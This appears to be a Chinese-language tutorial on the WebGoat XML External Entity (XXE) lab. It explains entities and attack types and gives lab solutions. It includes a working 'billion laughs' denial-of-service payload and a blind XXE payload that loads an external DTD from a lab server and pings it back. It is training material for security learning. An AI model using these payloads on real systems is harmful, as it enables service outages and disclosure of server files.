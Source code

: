 # XXE

### 概念

这节课将教您如何执行XML外部实体攻击，以及如何滥用和保护它。

**目标**

- 用户应该具有基本的XML知识

- 用户将理解XML解析器是如何工作的

- 用户将学习执行XXE攻击和如何保护它

  

[XML实体注入学习](jianshu.com/p/a1ea825aa485)

### 什么是XML实体?

XML实体允许定义将在解析XML文档时由内容替换的标记。一般有三种实体:

- 内部实体

- 外部实体

- 参数实体。

一个实体必须在文档类型定义(DTD)中创建，让我们从一个例子开始:

```xml
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

所以无论你在哪里使用实体&js;解析器将用实体中定义的值替换它。

### 什么是XXE（XML External Entity Injection 即xml外部实体注入）注入?

XML外部实体攻击，是针对解析XML输入的应用程序的一种攻击。当包含对外部实体的引用的XML输入被弱配置的XML解析器处理时，就会发生这种攻击。这种攻击可能导致机密数据泄露、拒绝服务、服务器端请求伪造、从解析器所在机器的角度进行端口扫描，以及其他系统影响。

攻击可以包括使用系统标识符中的file:  scheme或相对路径公开本地文件，这些文件可能包含密码或私有用户数据等敏感数据。由于攻击是相对于处理XML文档的应用程序发生的，所以攻击者可以使用这个受信任的应用程序转向其他内部系统，可能通过http(s)请求披露其他内部内容，或者对任何未受保护的内部服务发起CSRF攻击。在某些情况下，可以通过解除对恶意URI的引用来利用容易出现客户端内存损坏问题的XML处理器库，这可能允许在应用程序帐户下执行任意代码。其他攻击可以访问可能不会停止返回数据的本地资源，如果没有释放太多的线程或进程，可能会影响应用程序的可用性。



一般来说，我们可以区分以下类型的XXE攻击:

- Classic:在这种情况下，外部实体包含在局部DTD中

- Blind:响应中不显示输出和错误

- Error :尝试在错误消息中获取资源的内

### 现代其他框架

在现代REST框架中，服务器可能能够接受您作为开发人员没有考虑到的数据格式。因此，这可能导致JSON端点容易受到XXE攻击。



# XXE DOS 攻击

什么是DOS攻击

 使用相同的XXE攻击，我们可以对服务器执行DOS服务攻击。这种攻击的一个例子是: 

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

当XML解析器加载这个文档时，它会看到它包含一个根元素“lolz”，其中包含文本“&lol9;”。然而，“&lol9”是一个被定义的实体，它扩展成一个包含10个“&lol8”字符串的字符串。每个“&lol8”字符串都是一个已定义的实体，它扩展为10个“&lol7”字符串，依此类推。在处理完所有的实体扩展之后，这一小块(< 1 KB) XML实际上将占用近3 gb的内存。

这被称为“十亿笑”，更多信息可以在这里找到:https://en.wikipedia.org/wiki/billion_laughing



### Blind XXE

在某些情况下，您将看不到任何输出，因为尽管您的攻击可能已经奏效，但该字段并未反映在页面的输出中。 或者您尝试读取的资源包含非法XML字符，这会导致解析器失败。 让我们从一个示例开始，在这种情况下，我们引用一个由我们自己的服务器控制的外部DTD。 

作为攻击者，您可以控制WebWolf（可以是您控制下的任何服务器。），例如，您可以使用该服务器通过http://192.168.56.101:9090/landing对其进行ping操作

我们如何使用此端点来验证我们是否可以执行XXE？ 

我们可以再次使用WebWolf托管一个名为Attack.dtd的文件，并使用以下内容创建该文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://192.168.56.101:9090/landing'>
```

 现在提交表单，将xml更改为： 

```
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://192.168.56.101:9090/WebWolf/files/attack.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
```

 现在在WebWolf浏览到“传入请求”，你会看到 

```
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
```

 所以有了XXE，我们可以ping我们自己的服务器，这意味着XXE注入是可能的。所以使用XXE注入我们基本上可以达到和开始使用curl命令时一样的效果。 



# 解题

* lesson3

  

 在提交表单时，您将在照片中添加一条注释，并尝试执行带有注释字段的XXE注入。试着列出文件系统的根目录。 

![](img/XEE1.png)

* lesson4

  修改content-Type类型json修改为xml

  ![](img/XEE3.png)

  ![](img/XEE2.png)
  
  